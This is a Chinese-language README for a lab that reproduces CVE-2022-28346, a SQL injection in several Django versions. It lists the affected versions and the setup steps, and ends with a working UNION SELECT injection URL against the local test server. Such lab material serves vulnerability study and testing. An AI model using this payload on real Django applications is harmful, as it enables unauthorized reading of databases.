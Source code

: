 # CVE_2022_28346
本文件夹内项目提供了`CVE_2022_28346`漏洞的环境.

## 受影响的 Django 版本
 - 2.2 <= version < 2.2.28 
 - 3.2 <= version < 3.2.13 
 - 4.0 <= version < 4.0.4

## 使用说明
1. 安装含有`CVE_2022_28346`漏洞的`Django`版本, 测试用的是`3.2.11`.

```shell
python -m pip install django==3.2.11 -i https://pypi.tuna.tsinghua.edu.cn/simple
```

2. 通过`Django`初始化并加载项目.

```shell
python manage.py makemigrations
python manage.py migrate
python manage.py runserver 0.0.0.0:8000
```

3. 访问`http://localhost:8000/`加载数据.

4. 访问`exp`: `http://localhost:8000/demo/?field=demo.name%22%20FROM%20%22demo_user%22%20union%20SELECT%20%221%22,sqlite_version(),%223%22%20--`.

## 参考
 - [CVE_2022_28346](https://github.com/DeEpinGh0st/CVE-2022-28346)